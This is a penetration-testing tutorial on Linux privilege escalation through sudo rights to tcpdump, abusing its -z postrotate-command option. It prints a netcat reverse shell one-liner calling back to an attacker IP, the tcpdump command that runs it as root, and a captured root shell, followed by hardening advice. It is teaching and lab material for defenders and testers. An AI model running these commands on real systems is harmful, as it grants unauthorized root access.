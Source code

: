 ```yaml
---
icon: linux
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# Sudo Rights Abuse

Sudo privileges can be granted to an account, permitting the account to run certain commands in the context of the root (or another account) without having to change users or grant excessive privileges. When the `sudo` command is issued, the system will check if the user issuing the command has the appropriate rights, as configured in `/etc/sudoers`.

When landing on a system, we should always check to see if the current user has any sudo privileges by typing `sudo -l`. Sometimes we will need to know the user's password to list their `sudo` rights, but any rights entries with the `NOPASSWD` option can be seen without entering a password.

{% code title="Command" %}
```bash
sudo -l
```
{% endcode %}

{% code title="Example Output" %}
```bash
Matching Defaults entries for sysadm on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sysadm may run the following commands on NIX02:
    (root) NOPASSWD: /usr/sbin/tcpdump
```
{% endcode %}

It is easy to misconfigure this. For example, a user may be granted root-level permissions without requiring a password. Or the permitted command line might be specified too loosely, allowing us to run a program in an unintended way, resulting in privilege escalation. In this example, if the sudoers file is edited to grant a user the right to run a command such as `tcpdump` per the following entry in the sudoers file: `(ALL) NOPASSWD: /usr/sbin/tcpdump` an attacker could leverage this to take advantage of a the **postrotate-command** option.

{% code overflow="wrap" %}
```shell-session
user@target:~$ man tcpdump

<SNIP> 
-z postrotate-command              

Used in conjunction with the -C or -G options, this will make `tcpdump` run " postrotate-command file " where the file is the savefile being closed after each rotation. For example, specifying -z gzip or -z bzip2 will compress each savefile using gzip or bzip2.
```
{% endcode %}

By specifying the `-z` flag, an attacker could use `tcpdump` to execute a shell script, gain a reverse shell as the root user or run other privileged commands. For example, an attacker could create the shell script `.test` containing a reverse shell and execute it as follows:

```bash
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```

First, make a file to execute with the `postrotate-command`, adding a simple reverse shell one-liner.

{% code title="Command" %}
```bash
cat /tmp/.test
```
{% endcode %}

<pre class="language-bash" data-title="Example Output"><code class="lang-bash"><strong>rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&#x26;1|nc 10.10.14.3 443 >/tmp/f
</strong></code></pre>

Next, start a `netcat` listener on our attacking box and run `tcpdump` as root with the `postrotate-command`. If all goes to plan, we will receive a root reverse shell connection.

{% code title="Command" %}
```bash
sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```
{% endcode %}

{% code title="Example Output" %}
```bash
dropped privs to root
tcpdump: listening on ens192, link-type EN10MB (Ethernet), capture size 262144 bytes
Maximum file limit reached: 1
1 packet captured
6 packets received by filter
compress_savefile: execlp(/tmp/.test, /dev/null) failed: Permission denied
0 packets dropped by kernel
```
{% endcode %}

We receive a root shell almost instantly.

```shell-session
attacker@machine[/]$ nc -lnvp 443

listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.2.12] 38938
bash: cannot set terminal process group (10797): Inappropriate ioctl for device
bash: no job control in this shell

root@target:~# id && hostname               
id && hostname
uid=0(root) gid=0(root) groups=0(root)
NIX02
```

[AppArmor](https://wiki.ubuntu.com/AppArmor) in more recent distributions has predefined the commands used with the `postrotate-command`, effectively preventing command execution. Two best practices that should always be considered when provisioning `sudo` rights:

* Always specify the absolute path to any binaries listed in the `sudoers` file entry. Otherwise, an attacker may be able to leverage PATH abuse (which we will see in the next section) to create a malicious binary that will be executed when the command runs (i.e., if the `sudoers` entry specifies `cat` instead of `/bin/cat` this could likely be abused).
* Grant `sudo` rights sparingly and based on the principle of least privilege. Does the user need full `sudo` rights? Can they still perform their job with one or two entries in the `sudoers` file? Limiting the privileged command that a user can run will greatly reduce the likelihood of successful privilege escalation.

